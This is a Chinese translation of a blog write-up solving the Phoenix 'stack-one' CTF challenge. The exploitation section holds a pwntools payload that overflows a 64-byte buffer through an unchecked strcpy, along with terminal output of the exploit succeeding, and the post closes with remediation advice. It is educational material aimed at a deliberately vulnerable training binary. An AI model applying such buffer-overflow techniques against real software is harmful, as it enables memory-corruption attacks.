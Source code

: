 # 凤凰城挑战赛—堆栈一

> 原文：<https://infosecwriteups.com/phoenix-challenges-stack-one-4a9d2100274f?source=collection_archive---------1----------------------->

![](img/6edb48b6bb739362916b5e7758eb4c89.png)

# 挑战

挑战的描述和源代码位于[这里](https://exploit.education/phoenix/stack-one/)。它和所有其他 Phoenix 二进制文件都位于 **/opt/phoenix/amd64** 目录中。前一篇[文章](https://medium.com/@secnate/phoenix-challenges-getting-set-up-a2783e0616c6)描述了如何设置虚拟机来应对这些挑战，如果还没有这样做的话。

# 文件

我们使用下面的命令来了解一个*堆栈*文件的属性:

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ file /opt/phoenix/amd64/stack-one/opt/phoenix/amd64/stack-one: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

一些有趣的事实:

1.  它启用了`setuid`属性，这表明该程序是以所有者的权限运行的。如果文件的所有者是 root 用户(在本例中不是)，则可以使用它来提升权限
2.  它有符号，如`not stripped`属性所示。这意味着调试和分析二进制文件的人可以看到原始的变量和函数名
3.  它使用动态链接的共享库作为其执行的一部分。这有助于识别所使用的标准函数
4.  那是一辆`ELF 64-bit LSB executable, x86-64`。ELF 是文件格式，字长是 64 位，LSB 表示它是 little-endian(首先使用最低有效字节)，二进制使用 x86-64 指令集

# 目标

查看 *Stack One 的* C 代码，我们看到 *changeme* 变量存储在初始化为 0 的 *locals* struct 中。目标是篡改它的值，使它的值等于`0x496c5962`来打印所需的语句。

# 相关概念

有必要了解堆栈内存是如何工作的。我在凤凰栈零挑战的[文章里写了一篇很长的解释，有兴趣的可以看看。](https://medium.com/bugbountywriteup/phoenix-challenges-stack-zero-f8743cc871ed)

# 虫子

所有的 *Stack One 的*数据都存储在堆栈上，而 *locals* struct 的 buffer 和 *changeme* 变量是相邻的邻居。存入*缓冲区*的多余数据将溢出到 *changeme* 变量并影响其值。这种溢出是由 *strcpy()* 函数引起的，该函数将 *Stack-One* 二进制的参数写入 *locals.buffer* 中，而不进行任何边界检查。

# 利用

输入写入的 *locals.buffer* 有 64 个字符的空间。由于 *locals.changeme* 变量最初为 0，因此漏洞需要篡改其内存位置，以使其具有所需的`0x496c5962`值。这是通过输入一个 64 个字符的输入字符串来完全占据缓冲区的内存，并追加额外的数据来用`0x496c5962`值覆盖 *changeme* 变量来实现的。

我需要完全填满 *locals.buffer* 的 64 个字符，并确保追加的值可以完全控制 *changeme* 变量。幸运的是， *Stack One* 二进制文件有打印输出，它证明了 *locals.changeme* 变量是否等于`0x496c5962`，如果不等于就打印它的值。方便的

```
if (locals.changeme == 0x496c5962) { 
  puts("Well done, you have successfully set changeme to the correct value"); 
} 
else { 
  printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n", locals.changeme); 
}
```

我从设计一个基本的漏洞开始。其有效载荷在 [*exploit.py*](https://github.com/secnate/Exploit-Education-CTFs/blob/main/Phoenix/stack-one/exploit.py) 文件的第 14 行是`payload = cyclic(64) + p32(0xdeadbeef)`

这是什么意思？Pwntool 的 *cyclic(64)* 命令生成以下循环填充字符串

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```

虽然字符本身没有内在含义，但它的主要好处是每个可能的 4 字节序列对应一个唯一的字符串索引。通过简化调试和调整填充字符串偏移量，这加快了漏洞利用开发的过程。

p32 函数是 pwntools 的打包工具。它接受提供的整数输入(本例中为 0xdeadbeef ),并将其转换为长度为 32 个字节的字节字符串表示形式和适当的字节顺序。因为 *Stack One* 文件是 little-endian，所以它将 **0xdeadbeef** 表示为一个 **b'\xef\xbe\xad\xde'** 字节串。

这样就生成了以下字节串有效负载:

```
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\xef\xbe\xad\xde'
```

下一步是测试有效载荷的发射*是否完全*覆盖了带有 0xdeadbeef 的 *changeme* 变量。

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ ./exploit_with_debugger.py
Launching The Stack One Exploit!
[!] Could not find executable 'stack-one' in $PATH, using '/opt/phoenix/amd64/stack-one' instead
[+] Starting local process '/opt/phoenix/amd64/stack-one': pid 4703
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-one' stopped with exit code 0 (pid 4703)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0xdeadbeef, we want 0x496c5962
[*] Got EOF while reading in interactive
$
```

确实如此。最后一步是用`0x496c5962`替换有效载荷的`0xdeadbeef`值——你瞧！

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ ./exploit.py
Launching The Stack One Exploit!
[!] Could not find executable 'stack-one' in $PATH, using '/opt/phoenix/amd64/stack-one' instead
[+] Starting local process '/opt/phoenix/amd64/stack-one': pid 4717
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-one' stopped with exit code 0 (pid 4717)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[*] Got EOF while reading in interactive
$
```

漏洞代码可以在我的 [Github 知识库](https://github.com/secnate/Exploit-Education-CTFs)中找到。

# 补救

为了防止这样的内存损坏错误，我会敦促开发人员不要用 C 编写，而要过渡到内存安全的语言，如 Python 或 Rust。

如果除了使用 C 别无选择，我会警告不要使用 [strcpy](https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/) 函数来提取命令行参数或输入。正如刚才看到的，它继续读取输入，直到看到终止空值(' \0 ')，而不管目的缓冲区的大小。

应该使用 [strlcpy](https://man.openbsd.org/strlcpy.3) 函数。它将输入写入目标缓冲区，直到达到指定的大小，并以空字符(' \0 ')终止缓冲区。方便，因为许多程序员会忘记手动这样做。

源代码的`strcpy(locals.buffer, argv[1]);`行将是`strlcpy(locals.buffer, argv[1], 64);`。

这一轮就到此为止。敬请期待下一次挑战！

这篇 CTF 挑战赛的文章最初发表在内森·帕夫洛夫斯基的个人博客上: [secnate.github.io](http://secnate.github.io/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！
